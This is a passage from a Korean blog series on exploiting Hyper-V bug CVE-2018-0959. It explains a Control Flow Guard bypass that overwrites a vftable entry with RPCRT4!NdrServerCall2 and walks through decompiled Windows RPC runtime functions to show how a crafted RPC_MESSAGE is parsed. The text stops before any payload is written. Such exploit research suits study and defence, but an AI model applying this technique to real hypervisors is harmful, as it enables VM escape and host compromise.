






지난 파트 보러가기
[[Research] NewJeans’ Hyper-V Part 1 - Hyper-V Architecture](https://hackyboiz.github.io/2023/09/30/pwndorei/newjeans-hyper-v-pt1/)  
[[Research] NewJeans’ Hyper-V Part 2 - CVE-2018-0959 Analysis(1)](https://hackyboiz.github.io/2023/10/08/pwndorei/newjeans-hyper-v-pt2/)  
[[Research] NewJeans’ Hyper-V Part 3 - CVE-2018-0959 Analysis(2)](https://hackyboiz.github.io/2023/10/15/pwndorei/newjeans-hyper-v-pt3/)
[[Research] NewJeans' Hyper-V Part 4 - CVE-2018-0959 Exploit(1)](https://hackyboiz.github.io/2023/10/22/pwndorei/newjeans-hyper-v-pt4/)
**[Research] NewJeans' Hyper-V Part 5 - CVE-2018-0959 Exploit(2) (Here)**

안녕하세요 시험 끝나서 행복한 pwndorei입니다.
지난 파트 4에서 DLL들의 주소와 `VideoDirtListener`를 찾아냈었죠? 필요한 데이터는 모두 모였으니 이제 페이로드를 작성해봅시다!

# Bypass CFG
Windows Server 2012 R2에서는 ROP로 CFG를 우회했지만 Windows 10 Version 1709에서는 불행하게도 OOB Read/Write로 스택에 접근할 수 없습니다... 따라서 조금 ~~많이 복잡하고~~ 특별한 방법으로 CFG를 우회할 것입니다. 유출한 DLL 주소들 중에 `RPCRT4.dll`이 있건 것을 기억하시나요?  이 RPC를 활용해서 CFG를 무력화하는 방법에 대해 알아봅시다!

## Windows RPC(Remote Procedure Call)
Remote Procedure Call이란 원격 서버에 있는 프로시저(함수)를 클라이언트에서 로컬 함수인 것처럼 호출해서 사용할 수 있게 해주는 기술입니다.

> [출처](https://learn.microsoft.com/ko-kr/windows/win32/rpc/how-rpc-works)

위 그림은 Windows RPC의 아키텍처를 나타낸 그림입니다. 클라이언트와 서버의 프로그램은 호출에 사용될 파라미터나 호출의 반환 값을 그보다 아래에 있는 Stub으로 전달하고 Stub에서는 데이터를 NDR(Network Data Representation)포맷으로 변환합니다. 
사실 익스플로잇에서 RPC의 아키텍처는 그닥 중요하지 않습니다 ㅎㅎ 서버 측에서 클라이언트의 호출 요청을 어떻게 처리하는지만 알면 충분하죠. 
### `NdrServerCall2`
`NdrServerCall2`는 서버가 클라이언트의 요청을 수신하면 이를 처리하기 위해 호출되는 함수로 인자인 `pRpcMsg`는 요청의 정보를 저장하고 있는 `RPC_MESSAGE`를 가리키는 포인터 입니다.
```C
void __stdcall NdrServerCall2(PRPC_MESSAGE pRpcMsg)
{
	unsigned int pdwStubPhase;
	pdwStubPhase = 0;
	NdrStubCall2(0, 0, pRpcMsg, &pdwStubPhase);
}
```
내부적으로 호출하는 `NdrStubCall2`에서는 `RPC_MESSAGE`에서 호출될 함수와 호출에 사용할 인자를 파싱하고 함수를 호출해줍니다.
이게 CFG 우회랑 대체 무슨 연관이 있는 걸까요? `NdrServerCall2`는 `__stdcall` 호출 규약을 사용하고 유일한 인자인 `pRpcMsg`는 `RCX`를 통해 전달됩니다. 클래스의 메소드의 호출 규약인 `thiscall`에서는 이 `RCX`에 객체의 주소를 전달하는데요? vftable을 덮어써서 원하는 함수로 제어 흐름을 옮길 수는 있지만 인자 전달은 매우 제한적입니다.
따라서 `VideoDirtListener`의 vftable에서 특정 메소드를 `RPCRT4!NdrServerCall2`로 덮어쓰고 해당 메소드가 호출되면 `VideoDirtListener` 자체가 `RPC_MESSAGE`로 사용되기 때문에 레지스터로 인자를 전달하지 못하는 상황에서도 호출될 함수와 사용할 인자를 지정하는 것이 가능합니다.
아래는 `RPC_MESSAGE`와 관련 구조체들의 구조입니다

> [출처](https://iamelli0t.github.io/2021/04/10/RPC-Bypass-CFG.html)

잘 표현된 그림이라 가져왔는데 x86이네요 ㅋㅋㅋㅋㅋ 각 구조체 별로 중요한 필드에 대해 알아보시죠
#### `RPC_MESSAGE`
- Buffer: 함수 호출에 사용될 인자를 저장하는 버퍼
- BufferLength: 버퍼의 길이
- ProcNum: 프로시저 번호, DispatchTable에서 호출될 함수의 인덱스
- RpcInterfaceInformation: `RPC_SERVER_INTERFACE` 구조체 포인터
#### `RPC_SERVER_INTERFACE`
- InterpreterInfo: `MIDL_SERVER_INFO` 구조체 포인터
#### `MIDL_SERVER_INFO`
- pStubDesc: `MIDL_STUB_DESC` 구조체 포인터,
- DispatchTable: 함수 테이블
- ProcString: 프로시저 호출에 필요한 정보(호출에 사용될 스택 크기, 파라미터 수 등)을 저장
- FmtStringOffset: 특정 프로시저의 호출에 사용될 ProcString 오프셋을 저장하는 배열

어떤 데이터를 어떻게 전달해야 원하는 함수가 올바르게 호출되는지 분석을 통해 알아봅시다!

## `NdrStubCall2`
디컴파일된 결과가 너무... 긴 관계로 아래의 다섯 단계로 나누어 설명 드리겠습니다
1. Context Initialize(`MulNdrpInitializeContextFromProc`)
2. Server Initialize(`NdrpServerInit`)
3. Argument Parsing(`NdrpServerUnMarshal`)
4. `Invoke`
5. `Exit`

### Context Initialize
```C
nt __stdcall NdrStubCall2(void *pThis, void *pChannel, PRPC_MESSAGE pRpcMsg, unsigned int *pdwStubPhase)
{
  pRpcMsga = pRpcMsg;
  v107 = pChannel;
  v101 = pRpcMsg;
  v108 = pdwStubPhase;
  memset_0(&pStubMsg, 0, sizeof(pStubMsg));
  v7 = 0i64;
  v97 = 0i64;
  v103 = 0;
  ProcNum = pRpcMsg->ProcNum;
  if ( pThis )
  {
    ...
  }
  else
  {
    MIDL = pRpcMsg->RpcInterfaceInformation->InterpreterInfo;
    MIDL2 = MIDL;
    DispatchTable = MIDL->DispatchTable;
  }
  MIDL_STUB_DESC = MIDL->pStubDesc;
  ProcNum2 = ProcNum;
  ProcString = (char *)&MIDL->ProcString[MIDL->FmtStringOffset[ProcNum]];
  MulNdrpInitializeContextFromProc(0x8A885D04, ProcString, &NdrProcContext, 0i64, 0);//Context Initialize
  
```
위 코드는 `NdrStubCall2`에서 `NDR_PROC_CONTEXT`를 초기화하기 위해 `MulNdrpInitializeContextFromProc`함수를 호출하는 부분을 디컴파일한 결과입니다. `pRpcMsg`에서 ProcNum을 가져오고 해당하는 프로시저의 정보를 저장한 ProcString의 일부를 인자로 `MulNdrpInitializeContextFromProc`를 호출하는 모습입니다. 아래는 `MulNdrpInitializeContextFromProc`를 디컴파일한 결과입니다.

#### `MulNdrpInitializeContextFromProc`
```C
__int64 __fastcall MulNdrpInitializeContextFromProc(int SyntaxType, char *ProcString, NDR_PROC_CONTEXT *pContext, __int64 a4, char a5)
{
  unsigned int retval; // esi
  char v10; // al
  int RpcFlag; // er9
  int v12; // ecx
  int v13; // edx
  int v14; // eax
  int v15; // ecx
  int v16; // ecx
  char HandleType; // dl
  unsigned __int8 InterpreterFlags; // al
  char *ProcString1; // rdi
  int StackSize; // ecx
  __int64 ProcDesc; // rdi
  char *param; // r8
  unsigned __int8 v24; // cl
  __int64 v25; // rcx

  retval = 0;
  if ( !a5 )                                    // a5 == 0
  {                                             // Init NDR_PROC_CONTEXT
    memset_0(pContext, 0, 0x100ui64);           // Size of NDR_PROC_CONTEXT
    pContext->AllocateContext.BytesRemaining = 0x200i64;// Size of AllocateContext.PreAllocatedBlock
    pContext->AllocateContext.pBlockPointer = (__int64)pContext->AllocateContext.PreAllocatedBlock;
    pContext->AllocateContext.MemoryList.Blink = &pContext->AllocateContext.MemoryList;
    pContext->AllocateContext.MemoryList.Flink = &pContext->AllocateContext.MemoryList;
  }
  pContext->pProcFormat = (__int64)ProcString;
  pContext->SyntaxDispatch[6] = NdrGetBuffer;
  pContext->SyntaxDispatch[7] = NdrpSendReceive;
  pContext->StartofStack = (char *)a4;
  if ( SyntaxType == 0x8A885D04 )               // a1 == 0x8A885D04
  {
    LODWORD(pContext->CurrentSyntaxType) = 0x8A885D04;
    HandleType = *ProcString;
    pContext->HandleType = *ProcString;
    if ( HandleType == 0x33 )
    {
      pContext->Flags |= 0x20u;
      pContext->SyntaxDispatch[6] = NdrNsSendReceive;
      pContext->SyntaxDispatch[7] = NdrNsSendReceive;
    }
    InterpreterFlags = ProcString[1];
    ProcString1 = ProcString + 2;
    LOBYTE(pContext->union.NdrInfo.InterpreterFlags) = InterpreterFlags;
    if ( (InterpreterFlags & 8) != 0 )          // HasRpcFlags
    {
      RpcFlag = *(_DWORD *)ProcString1;
      ProcString1 += 4;
    }
    else
    {
      RpcFlag = 0;
    }
    retval = *(unsigned __int16 *)ProcString1;
    StackSize = *((unsigned __int16 *)ProcString1 + 1);
    ProcDesc = (__int64)(ProcString1 + 4);      // ProcString+6
    pContext->StackSize = StackSize;
    pContext->pHandleFormatSave = ProcDesc;
    if ( !HandleType )
    {
      v25 = 4i64;
      if ( *(_BYTE *)ProcDesc != 0x32 )
        v25 = 6i64;
      ProcDesc += v25;
    }
    pContext->union.NdrInfo.pProcDesc = ProcDesc;
    param = (char *)(ProcDesc + 6);
    v24 = *(_BYTE *)(ProcDesc + 4);
    pContext->NumberParams = *(unsigned __int8 *)(ProcDesc + 5);
    if ( (v24 & 0x40) != 0 )
    {
      pContext->Flags ^= (pContext->Flags ^ (*(unsigned __int8 *)(ProcDesc + 7) >> 2)) & 8;
      param += (unsigned __int8)*param;
      *(_DWORD *)&pContext->FloatDoubleMask = *(unsigned __int16 *)(ProcDesc + 14);
      if ( (*(_BYTE *)(ProcDesc + 7) & 1) != 0 )
        pContext->CorrIncrement = 2;
      if ( (*(_BYTE *)(ProcDesc + 7) & 0x40) != 0 )
        pContext->CorrIncrement = 12;
    }
    pContext->Flags &= 0xFFFFFFF8;
    pContext->Params = param;
    pContext->Flags |= (InterpreterFlags >> 1) & 2 | ((v24 & 8 | (v24 >> 4) & 2u) >> 1);
    pContext->ExceptionFlag = ((unsigned __int8)~(InterpreterFlags >> 5) & ((pContext->Flags & 2) == 0)) == 0;
  }
  else
  {
    ...
  }
  v15 = pContext->Flags;
  if ( (v15 & 4) != 0 )
  {
    pContext->SyntaxDispatch[6] = NdrGetPipeBuffer;
    RpcFlag = RpcFlag & 0xFFFFEFFF | 0x2000;
    pContext->SyntaxDispatch[7] = NdrpPipeSendReceive;
  }
  v16 = v15 & 0xFFFFFFEF;
  pContext->RpcFlgs = RpcFlag;
  pContext->Flags = v16;
  if ( (v16 & 2) != 0 )
  {
    pContext->SyntaxDispatch[6] = NdrpProxyGetBuffer;
    pContext->SyntaxDispatch[7] = NdrpProxySendReceive;
  }
  return retval;
}
```
이 함수에서는 ProcString의 어떤 오프셋에 어떤 정보가 저장되어 있는지 알 수 있습니다. 먼저 다섯 번째 인자로 0이 전달되었으니 `pContext`의 초기화가 발생하고 첫 번째 인자인 `SyntaxType`은 `0x8A885D04`이기 때문에 if 문으로 분기합니다. 변수 명은 처음에는 저렇게 예쁘게 설정되어 있지 않았지만 변수에 저장된 값이 대입되는 구조체 필드의 이름을 보고 어떤 값인지 유추할 수 있었습니다.
제가 분석한 ProcString의 구조는 아래와 같습니다.

- `ProcString[0]`: `HandleType`
	- 이 값이 0이거나 0x33이면 다른 분기를 통해 추가적인 작업이 이루어지는데 어떤 의미를 갖는지 모르기 때문에 해당 분기를 회피하기 위해 후술할 페이로드에서는 `ProcString[0]`은 0이나 0x33이 아닌 값으로 구성
- `ProcString[1]`: `InterpreterFlags`
	- 이 플래그의 4번째 비트가 1이면 `ProcString`에 `RpcFlag`가 포함되어 있다는 것을 의미한다. 추가적인 작업을 회피하기 위해 이 또한 8이 아닌 값으로 구성했다.
- `ProcString[2~3]`의 2바이트: `MulNdrpInitializeContextFromProc`이 반환할 값
- `ProcString[4~5]`의 2바이트: `StackSize`
	- 어떤 Stack의 크기인지는 후술 
- `ProcString+6 ~`: `ProcDesc`
	- `pContext->NdrInfo.pProcDesc`에 대입되는 것을 통해 해당 부분이 `ProcDesc`라고 유추 가능

다음으로는 `HandleType`이 0이나 0x33이 아니고 `InterpreterFlags`의 `HasRpcFlags`가 False일 때 `ProcString+6`부터 존재하는 `ProcDesc`의 구조입니다.

- `ProcDesc[4]`: Flags
	- 후술할 `Invoke`반환 직후에 이 플래그의 3번째 비트가 1인지 검사해서 호출한 함수의 반환값 을 저장하거나 하지 않는다
- `ProcDesc[5]`: Params의 수
	- `NdrpServerUnMashal`에서 파라미터를 파싱할 때 참조
- `ProcDesc + 6 ~`: Params
	- 후술할 `NdrpServerUnMarshal`에서 함수 호출에 사용될 각 파라미터의 스택 상의 위치 길이 등을 저장하는 데이터들
	- `NDR_PROC_CONTEXT->Params`가 이 부분을 가리킴

설명을 보시면 아시겠지만 `NdrpServerUnMarshal`에서 사용되는 값들이 많습니다 ㅋㅋㅋㅋㅋ 어떤 값을 전달해야 파라미터가 올바르게 파싱될 지는 `NdrpServerUnMarshal`에서 다시 설명하도록 하고 `MulNdrpInitializeContextFromProc` 반환 후의 동작을 살펴보시죠

```C
  StackSize2 = (unsigned int)NdrProcContext.StackSize;
  AllignedStackSize = (NdrProcContext.StackSize + 15) & 0xFFFFFFF0;
  v13 = AllignedStackSize;
  BytesRemaining = NdrProcContext.AllocateContext.BytesRemaining;
  if ( AllignedStackSize > NdrProcContext.AllocateContext.BytesRemaining )// (StackSize + f & fffffff0) > 0x200 => false
  {
    v91 = 0x1000;
    if ( AllignedStackSize + 0x10 > 0x1000 )
      v91 = AllignedStackSize + 16;
    v92 = (_LIST_ENTRY *)I_RpcBCacheAllocate(v91);
    if ( !v92 )
      RpcRaiseException(14);
    v93 = NdrProcContext.AllocateContext.MemoryList.Flink;
    if ( NdrProcContext.AllocateContext.MemoryList.Flink->Blink != &NdrProcContext.AllocateContext.MemoryList )
      __fastfail(3u);
    v92->Flink = NdrProcContext.AllocateContext.MemoryList.Flink;
    v92->Blink = &NdrProcContext.AllocateContext.MemoryList;
    v93->Blink = v92;
    NdrProcContext.AllocateContext.MemoryList.Flink = v92;
    args3 = (char *)&v92[1];
    BytesRemaining = v91 - 16i64;
    StackSize2 = (unsigned int)NdrProcContext.StackSize;
  }
  else
  {
    args3 = (char *)NdrProcContext.AllocateContext.pBlockPointer;
  }
  args = args3;
  v112 = args3;
  NdrProcContext.AllocateContext.pBlockPointer = (__int64)&args3[v13];
  NdrProcContext.AllocateContext.BytesRemaining = BytesRemaining - v13;
  v109 = args3;
  memset_0(args3, 0, StackSize2);
  NdrProcContext.StartofStack = args;
  pStubMsg.pContext = &NdrProcContext;
  pStubMsg.ContextHandleHash = 0i64;
```

이후 초기화된 Context를 통해 인자 전달에 사용될 스택 공간을 할당합니다. `NdrProcContext`에는 `AllocateContext`라는 필드가 있는데 `NdrProcContext`가 스택 변수이기 때문에 이 또한 스택에 존재하죠. `AllocateContext.PreAllocatedBlock`의 크기는 0x200인데 ProcString으로 전달된 `StackSize`가 이보다 크면 추가적인 할당이 발생하지만 익스플로잇에서는 그렇게 많은 스택을 사용하진 않기 때문에 설명은 생략하겠습니다 ㅎㅎ
무튼! `AllocateContext.pBlockPointer`의 값을 `arg`에 저장하고 `StackSize`만큼 `pBlockPointer`를 증가시킵니다. ptmalloc2에서 Top Chunk를 할당에 사용할 때와 비슷한 동작을 하네요 ㅎㅎ ~~시간이 된다면 리눅스 힙 익스플로잇 글도 써보겠습니다~~ 
이후 할당된 스택을 0으로 초기화하고 `pStubMsg.pContext`가 초기화된 `NdrProcContext`를 가리키게 되며 Context Initialize 과정은 끝이 납니다.

###  Server Initialize (`NdrpServerInit`)
이후 `NdrpServerInit`함수가 다음과 같이 호출됩니다.
```C
NdrpServerInit(&pStubMsg, pRpcMsga, MIDL_STUB_DESC, (__int64)pThis, (__int64)pChannel, 0i64);
```
호출에는 `StubMsg`와 `RpcMsg`, `StubDesc`가 사용되네요. `pThis`와 `pChannel`은 모두 NULL이니 무시하도록 합시다.

```C
unsigned __int8 *__fastcall NdrpServerInit(struct _MIDL_STUB_MESSAGE *StubMsg, PRPC_MESSAGE pRpcMsg, const _MIDL_STUB_DESC *pMidlStubDesc, __int64 a4, __int64 a5, __int64 a6)
{
  NDR_PROC_CONTEXT *Context; // rbx
  __int64 v11; // rax
  char *StartOfStack; // r14
  const unsigned __int8 *v13; // rax
  bool v14; // zf
  __int64 v15; // rax
  char *v16; // rcx
  unsigned __int16 *v17; // rax
  unsigned __int8 *MyBuffer; // rcx
  __int64 BufferLen; // rax
  unsigned __int64 v20; // rdx
  struct THREAD *v21; // rdx
  MALLOC_FREE_STRUCT *v22; // rax
  unsigned __int8 *ProcDesc2; // rax
  __int64 v24; // rcx
  const struct _NDROLE_EXTENSION_ROUTINES_TABLE *v25; // r13
  _LIST_ENTRY *v26; // rax
  _LIST_ENTRY *v27; // rcx
  _LIST_ENTRY *v28; // rdx
  void (__stdcall *v29)(void *); // rdx
  struct _MALLOC_FREE_STRUCT *v30; // rcx
  RPC_STATUS v31; // eax
  unsigned __int8 *v32; // rcx
  RPC_STATUS v33; // eax
  __int64 v34; // [rsp+0h] [rbp-58h] BYREF

  Context = StubMsg->pContext;
  v11 = Context->pSyntaxInfo;
  StartOfStack = Context->StartofStack;
  if ( v11 )
    v13 = *(const unsigned __int8 **)(v11 + 48);
  else
    v13 = pMidlStubDesc->pFormatTypes;
  v14 = Context->HandleType == 0;
  Context->DceTypeFormatString = (__int64)v13;
  if ( v14 )
  {
    v15 = Context->pHandleFormatSave;
    if ( *(_BYTE *)v15 == 50 )
    {
      v16 = &StartOfStack[*(unsigned __int16 *)(v15 + 2)];
      if ( *(char *)(v15 + 1) < 0 )
        v16 = *(char **)v16;
      *(_QWORD *)v16 = pRpcMsg->Handle;
    }
  }
  if ( a5 )                                     // a5 == 0
  {
    ...
  }
  else
  {
    v17 = (unsigned __int16 *)Context->union.NdrInfo.pProcDesc;
    if ( (v17[2] & 8) != 0 )//Flags
    {
      NdrServerInitializePartial(pRpcMsg, StubMsg, pMidlStubDesc, *v17);
    }
    else
    {
      StubMsg->_bf_c0 &= 0xFFFFEBD4;
      StubMsg->IsClient = 0;
      StubMsg->pAllocAllNodesContext = 0i64;
      StubMsg->pPointerQueueState = 0i64;
      StubMsg->IgnoreEmbeddedPointers = 0;
      StubMsg->PointerBufferMark = 0i64;
      StubMsg->BufferLength = 0;
      StubMsg->StackTop = 0i64;
      StubMsg->FullPtrXlatTables = 0i64;
      *(_QWORD *)&StubMsg->FullPtrRefId = 0i64;
      StubMsg->UniquePtrCount = 0;
      StubMsg->dwDestContext = 2;
      StubMsg->pvDestContext = 0i64;
      StubMsg->pRpcChannelBuffer = 0i64;
      StubMsg->pArrayInfo = 0i64;
      StubMsg->RpcMsg = pRpcMsg;
      StubMsg->Buffer = (unsigned __int8 *)pRpcMsg->Buffer;
      MyBuffer = (unsigned __int8 *)pRpcMsg->Buffer;
      StubMsg->BufferStart = MyBuffer;
      BufferLen = pRpcMsg->BufferLength;
      StubMsg->_bf_c0 &= 0xFFFFF63F;
      StubMsg->BufferEnd = &MyBuffer[BufferLen];
      StubMsg->uFlags = 0;
      StubMsg->uFlags2 = 0;
      StubMsg->pfnAllocate = pMidlStubDesc->pfnAllocate;
      StubMsg->pfnFree = pMidlStubDesc->pfnFree;
      StubMsg->StubDesc = pMidlStubDesc;
      StubMsg->LowStackMark = &v34 - 1525;
      StubMsg->ReuseBuffer = 0;
      StubMsg->dwStubPhase = 0;
      StubMsg->CorrDespIncrement = 0;
      StubMsg->pAsyncMsg = 0i64;
      StubMsg->pCorrInfo = 0i64;
      StubMsg->pCorrMemory = 0i64;
      StubMsg->pMemoryList = 0i64;
      v20 = (unsigned __int64)NtCurrentTeb()->ReservedForNtRpc;
      if ( v20 )
      {
        v21 = (struct THREAD *)(v20 ^ 0xABABABABDEDEDEDEui64);
        if ( (HANDLE)*((_QWORD *)v21 + 2) != NtCurrentTeb()->ClientId.UniqueThread )
          __fastfail(0x1Eu);
      }
      else
      {
        v21 = ThreadSelfHelper();
      }
      if ( !v21 )
        RpcRaiseException(14);
      *((_QWORD *)v21 + 11) = StubMsg;
      v22 = pMidlStubDesc->pMallocFreeStruct;
      if ( v22 )
      {
        v29 = v22->pfnFree;
        v30 = pRpcSsDefaults;
        pRpcSsDefaults->pfnAllocate = v22->pfnAllocate;
        v30->pfnFree = v29;
      }
      if ( pMidlStubDesc->Version > 0xA0000 )
        RpcRaiseException(1829);
      if ( (pRpcMsg->RpcFlags & 0x1000) == 0 )  // RpcFlags -> 0x1000
      {
        pRpcMsg->RpcFlags = 0x4000;
        v31 = I_RpcReceive(pRpcMsg, 0);
        if ( v31 )
          RpcRaiseException(v31);
        StubMsg->Buffer = (unsigned __int8 *)pRpcMsg->Buffer;
        v32 = (unsigned __int8 *)pRpcMsg->Buffer;
        StubMsg->BufferStart = v32;
        StubMsg->BufferEnd = &v32[pRpcMsg->BufferLength];
      }
    }
  }
  if ( a6 )                                     // a6 == 0
  {
    ...
  }
  if ( (*(_BYTE *)(Context->union.NdrInfo.pProcDesc + 4) & 8) != 0 )//Flags
    ((void (__usercall *)(struct _MIDL_STUB_MESSAGE *@<rcx>, struct _NDR_ALLOCA_CONTEXT *@<rdx>, const unsigned __int8 *@<r8>, __int64@<r9>, unsigned int))NdrpPipesInitialize32)(
      StubMsg,
      (struct _NDR_ALLOCA_CONTEXT *)&Context->AllocateContext,
      (const unsigned __int8 *)Context->Params,
      (__int64)StartOfStack,
      Context->NumberParams);
  if ( (Context->union.NdrInfo.InterpreterFlags & 1) != 0 )
    StubMsg->FullPtrXlatTables = NdrFullPointerXlatInit(0, XLAT_SERVER);
  else
    StubMsg->FullPtrXlatTables = 0i64;
  StubMsg->_bf_c0 |= 0x100u;
  StubMsg->StackTop = (unsigned __int8 *)StartOfStack;
  StubMsg->pUserMarshalList = 0i64;
  if ( (Context->union.NdrInfo.InterpreterFlags & 2) != 0 )
    NdrRpcSsEnableAllocate(StubMsg);
  ProcDesc2 = (unsigned __int8 *)Context->union.NdrInfo.pProcDesc;
  if ( (ProcDesc2[4] & 0x40) != 0 )//Flags
  {
    ...
  }
  return ProcDesc2;
}
```
ProcDesc의 플래그에 따라 분기하는 부분이 많은 것을 확인할 수 있는데요?  if로 ProcDesc의 플래그를 비교하는 부분을 보면 `NdrpPipesInitialize`나 `NdrServerInitializePartial` 등 추가적인 호출이 발생합니다. 이들은 굳이 호출할 필요가 없어 보이기 때문에 뒤에 나올 페이로드에서도 이를 건너뛸 수 있도록 플래그를 설정해줬습니다. 그리고 `StubMsg`를 초기화하는 부분을 볼 수 있습니다. 특히 `RpcMsg`로 전달된 인자가 저장된 버퍼의 시작과 끝이 `pStubMsg`의 `Buffer`, `BufferStart`와 `BufferEnd`에 저장되었네요. 이후 초기화된 `StubMsg`로 `NdrpServerUnMarshal`이 호출됩니다

### Argument Parsing(`NdrpServerUnMarshal`)
다음과 같이 유일한 인자로 `NdrpServerInit`에서 초기화된 `StubMsg`를 전달합니다.
```C
NdrpServerUnMarshal(&pStubMsg);
```

```C
int __fastcall NdrpServerUnMarshal(struct _MIDL_STUB_MESSAGE *pStubMsg1)
{
  pContext1 = pStubMsg1->pContext;
  v3 = pContext1->DceTypeFormatString;
  isDataRep0x10 = LOWORD(pStubMsg1->RpcMsg->DataRepresentation) == 0x10;
  Params = (__int16 *)pContext1->Params;
  v64 = v3;
  if ( !isDataRep0x10 )
  {
    NdrConvert2(pStubMsg1, (PFORMAT_STRING)Params, pContext1->NumberParams);
    v3 = v64;
  }
  v6 = 0i64;
  i = 0;
  if ( pContext1->NumberParams )
  {
    v8 = 0x2000i64;
    do
    {
      flag = Params[3 * i];                     // Param + i*3 (0,6,9,12...)
      if ( (flag & 0xC) == 8 )
      {
        StackIndex = (unsigned __int16)Params[3 * i + 1];// Params + i*3 + 1 (1,7,10,13...)
        if ( (flag & 0x800) != 0 )
        {
          StackBufferPointer = (int *)&pContext1->StartofStack[StackIndex];
          v47 = (unsigned __int64)(pStubMsg1->Buffer + 3);
          v65 = StackBufferPointer;
          v47 &= 0xFFFFFFFFFFFFFFFCui64;        // align
          pStubMsg1->Buffer = (unsigned __int8 *)v47;
          *(_QWORD *)StackBufferPointer = *(_DWORD *)v47 != 0;
          pStubMsg1->Buffer += 4;
        }
        else
        {
